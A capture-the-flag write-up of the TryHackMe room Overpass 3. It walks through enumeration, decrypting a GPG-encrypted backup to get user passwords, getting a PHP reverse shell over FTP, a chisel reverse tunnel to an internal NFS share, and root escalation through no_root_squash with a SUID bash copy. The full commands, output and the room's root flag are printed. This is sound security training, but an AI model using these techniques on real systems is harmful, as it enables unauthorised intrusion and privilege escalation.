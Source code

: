 # 61 - Overpass 3 - Hosting (GPG, no\_root\_squash exploitation)

Room Link --> [https://tryhackme.com/room/overpass3hosting](https://tryhackme.com/room/overpass3hosting)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.184.170 -sV -p-

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack Apache httpd 2.4.37 ((centos))
```
{% endcode %}

Source code of the main page.

<figure><img src=".gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.184.170 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403,404

/backups
```
{% endcode %}

We see a `backup.zip` file there, download and analyze it.

<figure><img src=".gitbook/assets/image (401).png" alt=""><figcaption></figcaption></figure>

There is a .gpg key and an excel document encrypted with gpg.

The archive contains an encrypted spreadsheet and a GPG key, using the GPG tool to import the key and decrypt the spreadsheet:

<figure><img src="https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/05/image-267.png?w=800&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (402).png" alt=""><figcaption></figcaption></figure>

```bash
# credentials
paradox : ShibesAreGreat123
0day : OllieIsTheBestDog
murilandoracle : A11D0gsAreAw3s0me
```

We login as `paradox` .

<figure><img src=".gitbook/assets/image (403).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Seems paradox folder hosts the main webpage.

Meaning we can upload mailicious php file and upload via ftp and get reverse shell.

<figure><img src=".gitbook/assets/image (404).png" alt=""><figcaption></figcaption></figure>

And we got a shell as `apache` user.

<figure><img src=".gitbook/assets/image (405).png" alt=""><figcaption></figcaption></figure>

The first flag can then be identified by searching for web or flag through the find command:

```bash
find / -name web* 2>/dev/null
```

<figure><img src="https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/05/image-277.png?w=800&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

We can use Paradox ftp passowd to switch to his account: `su paradox` .

SO i added my ssh pub key into paradox ssh authorized\_keys file, so i could ssh with my private key for aa stable shell.

### Priv Esc to James

Transfer LinPEAS.sh to the victim box.

It appears that there is a NFS share connected to /home/james and the “no\_root\_squash” NFS setting is enabled:

<figure><img src="https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/05/image-281.png?w=800&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

```bash
[paradox@localhost ~]$ cat /etc/exports
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```

This means the `/home/james` dir is sharable and mountable and even writable because of the `no_root_squash` . Meaning we can mount it on kali then upload a malicious file to gain access to the James user.

Now, NFS (2049) is not open externally but is open internally.

We can port forward it so  it can be available in our kali,  i will use chisel.

{% code overflow="wrap" %}
```bash
┌──(dking㉿dking)-[/opt]
└─$ ./chisel_1.9.1_linux_amd64 server --port 9001 --reverse

# on victim
[paradox@localhost ~]$ ./chisel_1.9.1_linux_amd64 client 10.18.88.214:9001 R:2049:127.0.0.1:2049

```
{% endcode %}

<figure><img src=".gitbook/assets/image (406).png" alt=""><figcaption></figcaption></figure>

When we mount `/home/james` - we get an error, but if we mount `/` - it works.

```bash
┌──(root㉿dking)-[~]
└─# sudo mount -t nfs 127.0.0.1:/home/james /mnt/home
Created symlink /run/systemd/system/remote-fs.target.wants/rpc-statd.service → /lib/systemd/system/rpc-statd.service.
mount.nfs: mounting 127.0.0.1:/home/james failed, reason given by server: No such file or directory

# mounting / works
┌──(root㉿dking)-[~]
└─# sudo mount -t nfs 127.0.0.1:/ /mnt/home  
                                                                                                                
┌──(root㉿dking)-[~]
└─# cd /mnt/home && ls -al     
total 20
drwx------ 3 dking dking  112 Nov 17  2020 .
drwxr-xr-x 5 root  root  4096 Nov  7 10:33 ..
lrwxrwxrwx 1 root  root     9 Nov  8  2020 .bash_history -> /dev/null
-rw-r--r-- 1 dking dking   18 Nov  8  2019 .bash_logout
-rw-r--r-- 1 dking dking  141 Nov  8  2019 .bash_profile
-rw-r--r-- 1 dking dking  312 Nov  8  2019 .bashrc
drwx------ 2 dking dking   61 Nov  8  2020 .ssh
-rw------- 1 dking dking   38 Nov 17  2020 user.flag

```

So we get the user.flag.

### Priv Esc to root

Since we have the `no_root_squash` privs.

We can copy /bin/bash into a file chown to root and add SUID bits from our kali, then we execute on James ssh session.

{% code overflow="wrap" %}
```bash
# from james ssh session
[james@localhost ~]$ cp /bin/bash bash
[james@localhost ~]$ ls
bash  user.flag
[james@localhost ~]$ ./bash -p
bash-4.4# cd /root
bash-4.4# ls
root.flag
bash-4.4# cat root.flag 
thm{a4f6adb70371a4bceb32988417456c44}
bash-4.4# 


# from kali NFS session
┌──(root㉿dking)-[/mnt/home]
└─# ls    
bash  user.flag
                                                                                                                
┌──(root㉿dking)-[/mnt/home]
└─# chown root:root bash    
                                                                                                                
┌──(root㉿dking)-[/mnt/home]
└─# chmod 777 bash && chmod +s bash
                                                                                                                
┌──(root㉿dking)-[/mnt/home]
└─# ls
bash  user.flag
```
{% endcode %}

<figure><img src=".gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>

Done!

